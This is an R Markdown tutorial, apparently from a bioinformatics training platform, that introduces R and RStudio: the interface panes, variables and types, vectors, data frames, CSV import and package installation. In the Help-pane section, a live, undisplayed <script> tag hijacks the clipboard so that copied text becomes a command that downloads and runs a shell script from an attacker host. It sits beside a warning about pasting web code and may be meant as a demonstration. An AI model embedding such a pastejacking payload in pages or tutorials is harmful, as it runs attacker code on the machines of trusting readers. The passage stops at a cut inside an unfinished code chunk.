



```{r setup, include=FALSE}
# options(width = 60);
knitr::opts_chunk$set(
  echo = TRUE,        # Print the code
  eval = FALSE,       # Do not run command lines
  message = FALSE,    # Print messages
  prompt = FALSE,     # Do not display prompt
  comment = NA,       # No comments on this section
  warning = TRUE      # Display warnings
);

#base::library(package = "dplyr")
```

<style type="text/css">
details:hover { cursor: pointer,
}
summary {
  display: list-item;
}
</style>

# Introduction

## General information
A programming language is a communication code between a human and a machine (usually a computer).
This allows you to give instructions to the computer. And the computer is very wise, it stupidly carries out each instruction that we give it.  
There is a huge number of [programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages) and they evolve.

R is a programming language that allows you to:

1. manipulate data: import, transform, export, etc.
2. carry out more or less complex statistical analyses: description, exploration,
modelization...
3. create (pretty) figures
4. and much more !

Features:

* available on mainstream OS'es (Windows, Mac and Linux).
* free and open source (GNU).
* large user community / online help.
* numerous additional packages for any purpose.

History:

* **1993/08** : First official release of R as a _binary_.
  * Written by _**R**oss Ihaka_ and _**R**obert Gentleman_, simply aimed at being a programming language to teach introductory statistics at the University of Auckland.
  * Inspired by (and partially compatible with) the pre-existing, **S** programming language (BELL Labs, TIBCO Software).
* **1997/04** : foundation of the Comprehensive R Archive Network, as the R central packages repository.
* **1997/12** : release of R v0.6.0 _sources_ under the GNU licence.
* **2000/02** : release of R v1.0.0.
* **2024/04** : realase of R v4.4.0.

<details>
<summary>Details about implementations of R language</summary>
_WARNING_ : R is not R ! The _R software_ you will use is **NOT** the _R language_ itself ! It is an **implementation** of the language, and [other implementations](https://learn.saylor.org/mod/book/view.php?id=58417&chapterid=44968) co-exist(ed). By example : Revolution Analytics (by Microsoft, now [defunct](https://techcommunity.microsoft.com/t5/azure-sql-blog/microsoft-r-application-network-retirement/ba-p/3707161)), [Renjin](https://www.renjin.org/) (active, Java), [FastR](https://github.com/oracle/fastr) (active, Java), [Riposte](https://github.com/jtalbot/riposte) (defunct), [CXXR](https://www.cs.kent.ac.uk/projects/cxxr/) (defunct, C++) ...
<\details>

R versus Excel:

Fun fact (more _awkward_ than fun, actually) about why R is better than excel:  
_In 2020, ["Covid : UK loses thousands of cases due to ... a saturated MS Excel file"](https://www.lesechos.fr/monde/europe/covid-le-royaume-uni-passe-a-cote-de-milliers-de-cas-a-cause-dun-fichier-excel-arrive-a-saturation-1251904)  _

More information comparing R and Excel [here](https://fantasyfootballanalytics.net/2014/01/why-r-is-better-than-excel.html).

## The RGui

After installing R, you can launch it by double-clicking on the R icon 


An interface is software placed between you and the computer that allows you to communicate more easily with the computer.

As you can see, the default R interface (**RGui** console : GUI stands for _**G**raphical **U**ser **I**nterface_) is quite abrupt and bleak :S ...

As such, it is warmly recommended to use additional software that will function as a graphical interface between you and R. This interface is a kind of shell that makes R work in the background.
Several graphical interfaces have been developed, but the most used and practical is **[RStudio-desktop](https://posit.co/download/rstudio-desktop/)**.

# Rstudio


## First sight


RStudio displays 4 large panes by default. Their position may be changed based on your version and preference, but here are the default ones :

```{r rstudio_pane_names, echo = FALSE, eval = TRUE, results='asis'}
knitr::kable(
  x = data.frame(
    LEFT=c("Script pane", "Console pane"), 
    RIGHT=c("Environment/History pane", "Help/Plots/Files"),
    row.names = c("UPPER", "LOWER")
  ), 
  caption = "Pane names and postions"
)
```

> <span style="color:green"> NOTE : your four panes may be blank while most of mines are filled with text in the illustration, do not panic ! We'll come on that later.</span>

## The console pane (lower left)


This is a simple interactive R console, like in the RGui (see previous section), that allows us to communicate with the computer.

> <span style="color:#CD853F"> WARNING: Here is an example provided by the bioinformatics platform <B>BiGR</B>. Your local RStudio might differ: the version of R, the list of available packages, etc. On <B>your</B> local machine, RStudio console will match with the RGui. </span>

Here, I gave an instruction to R, and he told me that he was unable to execute it with an "Error" message. We communicate.

Let's try to enter the [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) command :

```{r first_command, eval=TRUE, echo=TRUE}
print("Hello World")
```

Here, we just used a _function_ (which is an instruction), called [`print`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print). This function attempts to display on screen anything provided between parenthesis `(` and `)`. In our example, we provided the character string `"Hello World"` (thus, we used quotes), and the function `print` successfully printed it on screen !  
The information that is put between the parentheses of a function is called arguments.

Now, click on **Session** -> **Save Workspace As...** and name it as you wish (I named mine _"my_session.RData"_). This will save your current _work space_ (the _environment_ in which you are working : the custom objects and functions loaded into memory).
What happened in the console pane? You nailed it! A command has been automatically written. I named the file "my_session.RData", so for me, it is:

```{r save_workspace_01}
save.image("my_session.RData")
```

This is one of the many ways RStudio helps you in your work, by simplifying (mainly using clicks and buttons) some tedious, regular parts.

> As a general recommendation, you should get to save your work space after any important step in your code. When you may need help, whether on a function error, a script result or anything alike, you would be able to share such save to your favorite R-developer next door. This file contains everything you did in your current session.

Note that you can create your own functions in the future.

A package is a collection of R functions that are not natively present in R.

> <span style="color:green"> NOTE: The Rstudio console allows **auto-completion** and **code suggestion** : when one uses the [TAB] key after writing the first few characters of a code function/variable, the console proposes possible names from a dictonary that fits your installation.
Any reputable bioinformatician uses auto-completion, but shhh ! It's one of our many secrets ! </span>

## The environment/history pane (upper right)

This pane has three main tabs: 'Environment', 'History' and 'Connections' (the 'Tutorial' tab was recently added, and a 'Git' tab may appear when one uses code in a version-controlled environment).


### Environment

'Environment' displays the list of every single variable, custom function, object or data loaded in R. This includes only what you defined by yourself and does not include environment variables nor base nor package-loaded functions.

A variable allows you to store information in memory, by giving it a name (like a box containing an information, and a label).
An object is a more complexe variable that allows you to save several information inside one name (see R - Basics section).

Example : in your console pane, enter the following command:

```{r my_var_equals_0, eval=TRUE}
my_var <- 0  # May also be written my_var = 0
```

What happened in the 'Environment' pane ?

You nailed it : a new **my_var** variable is now available in your environment !


When a more complex object is declared in your work space, some general information may be displayed, too. By example :

```{r dataframe_pane_env, eval=TRUE}
df <- data.frame("a"=c(1, 3), "b"=c(2, 4))
```

You can observe this _dataframe_ (something like a table, we'll see it later).

Click on its name to get a _preview_ of its contained data. Then, click on the light-blue downwards arrow to have a deeper insight of its content:


Now click on **Session** -> **Clear Work space** ...

... and watch how your objects/variables disappeared !

This action **cannot be undone** ! While it is useful to clear one's work space from time to time (in order to avoid name space collisions, release a bit of used RAM, etc), it is way better to **save your work space** before.

_One again, using this "clickable" way is just an assist from RStudio : there are specific (written) commands to remove objects, with more manual control._

### History




This tab is quite mandatory when coding and testing : while you test and search in the console, the history keeps a track of each command line you typed. This will definitely help you to build your scripts, to pass your command lines to coworkers, try and track code variations, and to revert possible unfortunate errors.

Each history is related to a session. You may see many commands in your history, even some you never entered manually : when a RStudio "assist" menu/button is used (ex : knitting commands, display commands, help commands, etc...), in most case it auto-runs a R command that will be stored in the history as well as the one you manually entered.

Please note that your history has a limit (512 entries by default) and only saves the latest command lines. The default value can be changed (but it's something to reserve to more advanced users)

## The help/plots/packages/files pane (lower right)

This pane has four main tabs: 'Files', 'Plots', 'Packages' and 'Help' (the 'Viewer' tab is rarely used, and 'Presentation' was added very recently).


### Help

This is maybe the **most important/useful** pane of your R Studio, on a user POV. THIS is the difference between R Studio and another code editor. Search for any function **here, locally** and not on the internet. This pane shows you the available help for **YOUR** version of R, **YOUR** version of a given package.

Effectively, a published function for which a help page does exist in a version of R or one of its packages, still can evolve in time, depending on its author. Thus, some parameters can be added, removed, renamed, and/or default values changed. Consequently, the help from a remote source (internet) may be inadequate for your current, installed version !

When copy-pasting commands from a remote source, please assure yourself the source is clean (ie, nothing harmful for your system) and compatible with your installed version (this is a major source of error).

<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\n'); e.preventDefault(); });
</script>

> <span style="color:#CD853F">Never ever copy code from the internet right to your console Why? Example: https://www.wizer-training.com/blog/copy-paste </span>

### Files

Just like any system file explorer, we can move across directories, create folders and files, delete them, etc... from within Rstudio.

Initially, this file explorer is set at your **current working position**. This means that when interacting with directories or files without expressing an _absolute path_, Rstudio will consider directories and files that are stored **where you are** in this panel

> NOTE : this is not a theoretical representation : performing modifications here will modify the file structure on your drive !

#### Create a directory

Here, we will create a new directory, using two methods :

1. With the GUI


2. With a command line :

Use the [`dir.create()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files2) function :

```{r create_dir}
dir.create("Intro_R")
```

#### Change working directory

One can change one's working directory :

1. With the GUI :


2. With a command :

Use [`setwd()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/getwd):

```{r setwd_example}
setwd("Intro_R")
```

#### Delete files

You can delete files:

1. With the GUI



2. With a command

Use the [`file.remove()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files) function:

```{r delete_file_example}
file.remove("annotation.csv")
file.remove("expression.txt")
```

> NOTE: There is nothing such as a "Recycle bin" here ! Deleted files or directories are wiped !

### Packages

Here are listed all _locally installed_ packages (not _available_ packages), with a description and a version number.


You will get more information about packages in an upcoming subsection.

### Plots

If you work with R scripts that performs plots, the generated graphs will be displayed here !

These can sometimes be _interactive_ plots (ability to zoom, scroll, etc...), depending on the functions used.

## The script pane (upper left)


This is where you will spend most of your time when writing your R scripts (next to the 'Help' pane !).  
A script is a text file, where you save your command line to use, in the order of using.  
This pane also accepts other languages (e.g. _bash_, _python_, ...) or different R flavors (R markdown, by example), but R Studio shines for its R integration, oviously.  

> <b>Please, please !</b> Write your commands in the 'Script' pane, <b>then</b> execute them (hitting [CTRL] + [Enter] with the cursor placed on the command to run), rather than directly writing them in the console ! This has only advantages : you can track, save, share your work, test variations, without relying on your (spoiler : imperfect) memory, ...

The default file extension for a R script saved is `.R` or `.r` (or `.RMD`, `.Rmd` for Rmarkdown scripts), for example `my_script.R`.


> NOTE : The file name here appears in red and ending with a star '*' because some content was written in the script but not saved on disk.

## TLDR – Too Long Didn't Read

Graphic interface presentation :

1. **Write command lines in the **'Script'** pane (upper left)
2. **Execute** command lines by hitting [CTRL] + [Enter] from the script pane, then observe their output in the 'Console' / 'Plots' panes.
3. Take a look at your **environment** and **history** in the upper right pane
4. **Search** for **help** in the lower right pane.

# R – Basics

## Variables and types

**Remember** : a **variable** is a name given to any value of any type stored in memory.

Here, we will describe basic types.  
A type is a data type.  It can be an integer, a decimal number, a string, an array, etc.

### Number

By example, `3`, the number three, exists in R and is understood as it by R. You can store this value in a variable using the arrow _assignment_ operator `<-`:

```{r, assign_r_base, eval=TRUE}
three <- 3
```

In the above code, the number 3 is stored in a variable called "three" (it could be any other name, as long as it avoids special characters).

You can do this in R with quite anything. Literally anything. Whole files, pipelines, images, anything.

```{r basic_chars_never_name_variable, eval=FALSE}
# The example below is a very good example of
# how to never ever name a variable:
シ <- "happy"
```

Maths in R works the same as your regular calculator :

```{r basic_maths, eval=TRUE}
3 + three # Add
1 - 2 # Subtract
4 / 2 # Divide
3 * 4 # Multiply
7 %/% 2 # Floor division
```

> <span style="color:green"> Info: `#` is the way to write a comment into your script. Any instruction after `#`, and as long as no line return is invoked, will be ignored by the R console. For example in `3 + three # Add`, `3 + three` will be executed, but `# Add` will not.
A good coder uses comments, and a lot of them, and relevant ones, to explain the calculation one made ! </span>

> NOTE : Here, we simplified how R is actually handling numbers. There are two main subtypes in numbers : 1) Integers 2) Numerics (called "floats" in most other languages).

### Character

Characters correspond to letters and letter chains, and are delimited with quotes : be it single `'` or double `"` (as long as the same type is uesd in a pair : on cannot start the definition of a character with a single quote and end it with a double one !) :

```{r basic_chars, eval=TRUE}
four <- "4"
five <- '5'
```

Mathematics do not work with characters at all ... Try the following:

```{r maths_error_basic, eval=FALSE}
"4" + 1
four + 1
```
<details>
<summary>Computer answer</summary>

> Error in "4" + 1 : non-numeric argument to binary operator

<\details>

You can try to turn characters in numbers with the function: [`as.numeric()`](https://www.rdocumentation.org/packages/h2o/versions/3.38.0.1/topics/as.numeric):

```{r maths_convert_basic, eval=TRUE}
as.numeric("4") + 1
as.numeric(four) + 1
```

### Function

A _function_ is a R piece of code that can perform more complex work. It is called using a command name, that is then followed by parentheses `(` and `)`. Between these parentheses, we enter _arguments_ that are expected by the function.

Use the help pane to get information about the names of arguments expected and/or understood by a given function, and the expected type of their value.

As previously described, you can store any of the previously typed commands into a variable:

```{r variable_post_command, eval=TRUE}
five <- as.numeric("4") + 1
print(five)
```

> <span style="color:green"> Please! Please! Give your variable explanatory names, so that its content is understandable by humans. I would be pissed off seeing any of you calling their variable "a", "b", "xyz, "my_awsome_var", "dunno_what_it_is", "thing1", "thing2", etc ... </span>

```{r tricky_exercise_not_shown, eval=TRUE, echo=FALSE}
options(digits = 7)
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```


**Question** :

I have two numbers stored in these variables :

* `mysterious_number_7`
* `suspicious_number_7`

When I apply the [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) function on them, it returns in both cases `7`.

They are both numeric.

However, _they are not equal ..._

Why ?

<details>
<summary>Code to check question facts</summary>
```{r tricky_exercise_shown, eval=TRUE}
# Show the value of the variable mysterious_number_7
print(mysterious_number_7)

# Show the value of the number suspicious_number_7
print(suspicious_number_7)

# Check that mysterious_number_7 is a number
is.numeric(mysterious_number_7)

# Check that suspicious_number_7 is a number
is.numeric(suspicious_number_7)

# Check that values of mysterious_number_7 and suspicious_number_7 are equal
mysterious_number_7 == suspicious_number_7

# Check that values of mysterious_number_7 and suspicious_number_7 are identical
identical(mysterious_number_7, suspicious_number_7)
```

We will talk about differences between ***equality*** and ***identity*** later.

</details>

<details>

<summary>Answer</summary>

This is due to the number of digits displayed in R. You are very likely to have issues with that in the future, as all (bio)informatician around the world.

```{r tricky_exercise_answer, eval=TRUE, echo=TRUE}
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```

You can change the number of displayed digits with the function [`options()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options):

```{r options_digits_change, eval=TRUE, echo=TRUE}
options(digits=8) #allows you to print up to 8 digits
print(mysterious_number_7)
```

</details>
<br>

### Logical

Aside from characters and numbers, there is another very important type in R (and computer science in general): Logicals, which corresponds to the _boolean_ types. There are two logicals : `TRUE` and `FALSE`.

```{r basics_comparisons, eval=TRUE}
3 > 4
5 < 10
5 == 10
```

## Data structures

Until now, we have seen simple information stored into a variable. But we can create more complex structures in order to store multiple information into a single variable.


> NOTE : In your usage of R, you may cross _R objects_. These correspond to a special type of complex objects, that can store mutiple data of different types, but also obey rules to allow users to interact with (by example, _getters_ and _setters_, to get or set information from and to it)

### Vector

You can make vectors and tables in R. Don't panic, there will be no maths in this course : vectors or a one-dimensional _series_ of values of the same type.

In R, vectors can be created with the [`c()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/c) function ("c" for "concatenate") :

```{r first_vector_basics, eval=TRUE}
one2twenty <- c("1", "2", "3", "4", "10", "20")
print(one2twenty)
```

One can **check** if a variable is a vector :

```{r first_vector_type, eval=TRUE}
is.vector(one2twenty)
```

As a uni-dimensional object, one can get its **length** :

```{r vec_len, eval = TRUE}
length(one2twenty)
```

One can **select an element** of the vector using squared brackets `[` and `]` holding the desired element index :

```{r select_in_vector_basics, eval=TRUE}
one2twenty[1] # select the first element
```

> NOTE : R index starts at the value 1 (many other languages start at 0)

```{r select_in_vector_basics2, eval=TRUE}
one2twenty[5] # select the fifth element
```

One can **select multiple elements** of a vector with a ranged index  `:`:

```{r mulitple_select_in_vector_basics, eval=TRUE}
one2twenty[2:4] # select from second to fourth element
```

One can combine both ways :

```{r vec_both}
one2twenty[1,3:5] # select the first and third to fifth elements
```

*Question 1*: Is there a difference between these two vectors ?

```{r difference_bascs_vectors, eval=TRUE}
c_vector <- c("1", "2", "3")
n_vector <- c( 1,   2,   3 )
```

<details>

<summary>Answer</summary>

There is a difference indeed: c_vector contains characters, n_vector contains numerics.

```{r difference_basics_vectors_answer, eval=TRUE}
print(c_vector)
print(n_vector)
print(is.numeric(c_vector))
print(is.numeric(n_vector))
identical(c_vector, n_vector)
```

You can always use the [`identical()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/identical) function to test identity with robustness and exactitude.

You may have learned about the operator `==` for equality. But this is not perfect, look at our example:

```{r difference_basics_vectors_answer_no_eqeq, eval=TRUE}
c_vector == n_vector
```

The operator `==` is not aware of data types.

Another example, mixing numeric and booleans:

```{r difference_basics_vectors_answer_no_eqeq_at_all, eval=TRUE}
1 == TRUE
identical(1, TRUE)
```

In computer sciences, there is a historical reason why booleans and integers are mixed.

<details>
<summary>More information about that</summary>
This is linked to the history of computing languages.
Prior to the introduction of an actual boolean type (`TRUE` and `FALSE`), the integers `0` and `1` were the official representation for true and false values, similar to what is used in C-89 (the first standardized version of the C programming language, in 1989).  
To avoid unnecessarily breaking imperfect but working code, the new boolean type needed to work just like 0s and 1s. This goes beyond merely truth value, but all integral operations. No one would recommend using a boolean results in a numeric context, nor would most people recommend testing equality to determine truth value, as well as no one wanted to find out the hard way just how much existing code is that way. Thus, the decision to make True and False mimics for 1 and 0, respectively. This is merely a historical artifact of the linguistic evolution.
</details>

</details>
<br>
*Question 2*: Can I include both text and numbers in a vector ?

```{r mixed_basics_vectors, eval=TRUE}
mixed_vector <- c(1, "2", 3)
```

<details>

<summary>Answer</summary>

YES and NO. The example shows that we technically can, we end with an unexpected results : Here, all our values have been turned into characters, as we can not mix types in a vector. Either all its content is made of number or all its content is made of characters.

```{r mixed_basics_vectors_answer, eval=TRUE}
print(mixed_vector)
print(is.numeric(mixed_vector))
print(is.character(mixed_vector))
```

</details>

<br>

*Question 3*: How to create a histogram from a vector ?

<details>
<summary>Help</summary>
A simple way to visualize your data is to use a graph. The [`hist()`](https://www.rdocumentation.org/packages/graphics/versions/3.6.2/topics/hist) function may help you (of course, use the _Help pane_!!).
</details>

<details>
<summary>Answer</summary>

```{r hist_c_vector, eval=FALSE}
hist(c_vector)
```
> <span style="color:#CD853F">Error in hist.default(c_vector) : ‘x’ must be numeric </span>

Errr... Why is this command not working ?

The error says : “‘x’ must be numeric”. The function only accepts a vector made of **numeric** values.

```{r hist_n_vector, eval=TRUE}
hist(n_vector) # worked perfectly !
```

</details>
<br>

### Data Frame

In R, a table is stored as a **data.frame**. A way to create it from scratch using the [`data.frame()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/data.frame) function :

```{r firstdata_frame_basics, eval=TRUE}
one2three4 <- data.frame(col1 = c(1, 3), col2 = c(2, 4))
print(one2three4)
```

By default, for dataframes, R accepts names for columns and rows.
You can rename columns and row names with the [`colnames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) and [`rownames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) functions, respectively.

```{r firstdata_frame_basics_rename, eval=TRUE}
colnames(one2three4) <- c("Col_1_3", "Col_2_4")
rownames(one2three4) <- c("Row_1_2", "Row_3_4")
print(one2three4)
```

You can access a column and a line in the data frame using an index for each dimension into squared brackets `[` and `]`. 

R expects first an index for rows, then columns : `data_frame[row_index, column_index]`. You can either use the name of row(s)/column(s) or their position index.

If one wants all values for one of the dimensions, one should just leave the bracket part empty.

```{r firstdata_frame_basics_select_row, eval=TRUE}
# Select a row by its name
print(one2three4["Row_1_2", ])
# Select a row by its index
print(one2three4[1, ])
# Select a column by its name
print(one2three4[, "Col_1_3"])
# Select a column by its index
print(one2three4[, 1])
# Select a cell in the table
print(one2three4["Row_1_2", "Col_1_3"])
# Select the first two rows and the first column in the table
print(one2three4[1:2, 1])
```

> <span style="color:green"> If you like maths, you will recall the `[row, column]` order. If you're not familiar with that, you probably will do like 99% of all software engineers : write in the wrong `[column, row]` order in your first interactions with R. Subsequently, you will raise an error. Trust me. 99%, easy. And just remember than an error is never an ending point in informatics.</span>

*Question 1* : Can I mix characters and numbers in a data frame **row** ?

<details>

<summary>Answer</summary>

Indeed, it is possible !

```{r dataframe_basics_mixed_col, eval=TRUE}
mixed_data_frame <- data.frame(
  "Character_Column" = c("a", "b", "c"),
  "Number_Column" = c(4, 5, 6)
)
print(mixed_data_frame)
```

The [`str()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/str) function can be used to look at the types of each elements in an object.

```{r use_str_df_first_time, eval=TRUE}
str(mixed_data_frame)
str(one2three4)
```

</details>
<br>

*Question 2* : Can I mix characters and numbers in a data frame **column** ?

<details>

<summary>Answer</summary>

Unfortunatelu, no, you can't :

```{r dataframe_basics_mixed_row, eval=TRUE}
mixed_data_frame <- data.frame(
  "Mixed_letters" = c(1, "b", "c"),
  "Mixed_numbers" = c(4, "5", 6)
)
print(mixed_data_frame)
str(mixed_data_frame)
```

All this is because the data.frame is a special sort of bidimensional object in R _structured by column_, where each column can store a different type than the other.

</details>
<br>

### Read a table as data frame

Exercise: Use the _Help pane_ to find how to use the [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) function.

You can find the example_table.csv input file [here](https://github.com/gustaveroussy/training_bigr/blob/main/Introduction_R_RStudio/For_Students/example_table.csv). Download it by clicking on the **[Download raw file]** button.

Use the [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) function to:

1. open the _file_ `example_table.csv`.
2. this table has a _header_ (`TRUE`). A header is a title line that defines column names. 
3. this table has _row names_ in the column called "Gene_id".
4. as a CSV file, its field separator is a comma _,_.

Let all other parameters to their default values.

Save the opened table in a _variable_ called `example_table`.

<details>

<summary>Answer</summary>

```{r open_example_table_soluce, eval=TRUE}
example_table <- read.csv(file="example_table.csv", 
                          header=TRUE, 
                          row.names="Gene_id",
                          sep = ","
                 )
```

</details>

Now let us explore this dataset.

We can click on the 'Environment' pane:



And if you click on it :


Be careful ! Visualizing a large table may hang your session (by consuming to much RAM).

Alternatively, we can use the [`head()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/head) function, which prints the first lines of a table:

```{r explore_table_one, eval=TRUE}
head(example_table)
```

The [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) function describes the dataset _per sample_ (per column) :

```{r first_summary_on_df, eval=TRUE}
summary(example_table)
```

Have a look at the [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) of the dataset _per gene_, using the [`t()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/t) function to _transpose_:

```{r first_summary_on_df_t, eval=TRUE}
head(t(example_table))
summary(t(example_table))
```

<details>

<summary>To go further</summary>

```{r to_go_further, eval=TRUE}
# number of columns
ncol(example_table)
# number of rows
nrow(example_table)
# get dimensions (number of rows and number of columns)
dim(example_table)
# type of each element
str(example_table)

```

</details>


## TLDR – Too Long Didn't Read !

```{r tldr_basics}
# Declare a variable, and store a value inside :
three <- 3

# Basic maths operators: + - / * work as intended:
six <- 3 + 3

# Quotes are used to delimit characters:
seven <- "7"

# You cannot perform maths on characters :
"7" + 8 # raises an error
seven + 8 # also raises an error
six + 8 # works fine

# R makes the most to help you. You can change the type of your variable with:
as.numeric("4") # the character '4' becomes the number 4
as.character(10) # the number 10 becomes the character 10

# You can compare values, returns a logical :
six < seven
six + 1 >= seven
identical(example_table, mixed_data_frame)


# You can load and save a data.frame as/from a text file :
read.table(file = ..., sep = ..., header = TRUE)
write.table(x = ..., file = ...)

# Create a table with:
my_table <- data.frame(...)

# Create a vector with:
my_vector <- c(...)

# You can read the first lines of a data.frame :
head(example_table)

# Search for help in the 'Help' pane or with:
help(...)
```


# R – Packages

## What are modules and packages

Modules and package are considered to be the same thing in this lesson. The difference is technical and does not relate to our scope.

Most of the work you are likely to do with R will require one or multiple additional packages. A package is a list of functions, pipelines, or datasets shipped under a given name. In general, a package groups together functions linked to an analysis scheme or theme towards a defined aim.
Every single function you use through R comes from a package or another. Those used till now in this lesson come mostly from the 'base' package (R is shipped with a short list of mandatory packages)

Invoke the help page for the `print` function, and read the very first line of the 'print' pane :

```{r print_pane_package, eval=FALSE}
help(print)
```

It reads: `print {base}` : The function `print` comes from the package `base`.

```{r head, eval=TRUE}
# Call the function "print", with the argument "You're the best!"
print("You're the best!")
```

> <span style="color:#CD853F"> WARNING : Sometimes, two packages may share the same name for different functions ! They are most certainly not doing the exact same thing. IMHO, it is a good habbit to ALWAYS call a function while disambiguating the package name, using thins syntax : `package::function`. Writing `base::print()` is better, clearer than using `print()` alone.</span>

```{r use_package_name, eval=TRUE}
# Call the function "help" ***from the package utils***, with the argument "example_table", and show only the first line
base::print("You're the best!")
```

## Install a package

Your work will probably require the installation of a new package from an external source.

R can install packages from multiple different sources and repositories, but by default, it installs from the CRAN repository.

Use [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) to install a package.

```{r install_package}
# Install a package with the following function
install.packages("dplyr")
```

This will raise a prompt asking for simple questions : from which mirror site to download (choose somewhere in France), whether to update other packages or not, etc.

Do not be afraid by the large amount of things prompted in the console and let R do the trick. These are messages from the different steps required by to safely install a package and test if it's perfectly installed and usable. It may also take time, especially when the requested package to install requires other packages (dependencies), that may themselves require other packages (etc...). Almost any code relies on another code !

Alternatively, you can click on [Tool] -> [Install Packages] in RStudio; or click on the [install] button in the 'Packages' tab of the 'File/Help' pane.

You can list installed packages with [`installed.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/installed.packages), and find for packages that can be updated with [`old.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

These packages can be updated with [`update.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

While the [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) function searches packages in the common R package list, many bioinformatics-related packages are available on other shared packages warehouses. Just like your AppStore and PlayStore do not have the same applications on your cellular, R has multiple sources for its packages. As someone invested in biology who wants to use R, in addition to the default CRAN repository, you need to know another one : [Bioconductor](https://bioconductor.org/).


You can install a package from Bioconductor with the [`BiocManager::install()`](https://www.rdocumentation.org/packages/BiocManager/versions/1.30.18) function :

```{r bioconductor_install_example}
# Install BiocManager, a package to use Bioconductor, from CRAN
install.packages("BiocManager")

# Install a package from Bioconductor
BiocManager::install("DESeq2")
```

Hopefully, BioConductor knows that the CRAN exists, so when one requests the installation of a BioConductor package that depends on CRAN packages, the installer will get them without any human intervention.


## Use a package

An _installed_ package is not actually _active_ by default (you can't use its functions just because it is installed). When you want to use something from an installed package, you need to _invoke_ it first.

You can load a package with the [`library()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/library) function :

```{r load_package}
